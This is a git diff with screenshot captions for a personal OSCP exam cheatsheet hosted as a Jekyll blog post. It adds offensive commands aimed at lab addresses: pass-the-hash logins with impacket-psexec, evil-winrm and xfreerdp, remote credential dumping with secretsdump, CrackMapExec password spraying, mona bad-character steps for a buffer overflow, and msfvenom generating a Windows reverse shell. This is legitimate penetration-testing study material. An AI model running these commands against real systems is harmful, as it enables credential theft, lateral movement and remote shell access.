

Before and after one commit to poppysec/poppysec.github.io, a Jekyll site: the page built from _posts/2022-12-15-OSCP-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 4619 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
more updates

`````diff
--- a/_posts/2022-12-15-OSCP-Cheatsheet.md
+++ b/_posts/2022-12-15-OSCP-Cheatsheet.md
@@ -147,8 +147,8 @@ Transferring Mimikatz binary via PowerShell
 
 ## Secretsdump
 
-Remotely dump credentials using NTLM hash of administrator to authenticate to target.
-```
+Remotely dump credentials using the NTLM hash of administrator to authenticate to target.
+```bash
 impacket-secretsdump -hashes aad3b435b51404eeaad3b435b51404ee:08df3c73ded940e1f2bcf5eea4b8dbf6 bob@10.11.1.1
 ```
 
@@ -192,13 +192,41 @@ The DMP file by default is output to `%temp%\lsass.DMP`, which will expand to `C
 
 # Lateral Movement
 
+Note when passing the hash we may need to preface the NTLM hash for the user account with the standard blank LM hash `aad3b435b51404eeaad3b435b51404ee`. This is the case for all Impacket tools.
+
 ### PsExec
 
+Port 445 (SMB) must be open for PsExec to function.
+
+```bash
+impacket-psexec user@10.11.1.1 -hashes aad3b435b51404eeaad3b435b51404ee:<user NTLM>
+```
+PsExec can also sometimes be used for local privilege escalation.
+
+### WinRM
+
+```bash
+evil-winrm -i 10.11.1.2 -u bob -H d4738f8c31d43e0167f27894a20e6688
+```
 
 ### RDP
 
 ```bash
 xfreerdp /u:bob /d:thinc /pth:b40c7060e1bf6g227131564a7bf33d48 /v:10.11.1.1
+```
+
+### MSSQL
+
+```bash
+impacket-mssqlclient sa:password@10.11.1.31
+```
+
+### CrackMapExec
+
+Spraying usernames
+
+```bash
+crackmapexec smb 10.11.1.1 -u users.txt -p ThisIsTheUsersPassword01 --continue-on-success
 ```
 
 # Pivoting
@@ -315,6 +343,41 @@ msf-nasm_shell
 # generate Windows reverse shell
 msfvenom -p windows/shell_reverse_tcp LHOST=$IP LPORT=$PORT -f c -e x86/shikata_ga_nai -b "\x00"
 ```
+Set logging directory for mona:
+
+```bash
+!mona config -set workingfolder c:\logs\%p
+```
+
+Create byte array, excluding the null byte.
+
+```bash
+!mona bytearray -b "\x00"
+````
+
+Use Mona to compare the stack at the `ESP` address to the original byte array.
+
+```bash
+!mona compare -f C:\logs\offsec_pwk_srv\bytearray.bin -a 010FEED0
+````
+
+Remake byte array without bad characters:
+
+```bash
+!mona bytearray -cpb "\x00\x04\x05\x18\x19\x91\x92\xa5\xa6\xf5\xf6"`
+```
+
+Compare byte array to verify.
+```bash
+!mona compare -f C:\logs\offsec_pwk_srv\bytearray.bin -a 006FEC3C
+````
+
+Generate shellcode with MSFvenom:
+
+```bash
+msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.136 LPORT=80 -f c -b "\x00\x04\x05\x18\x19\x91\x92\xa5\xa6\xf5\xf6"
+```
+
 
 Compile Windows exploit on Kali
 ```bash
`````
Also changed, not shown: assets/images/favicon.gif (deleted), assets/images/favicon.ico, 1 other file.
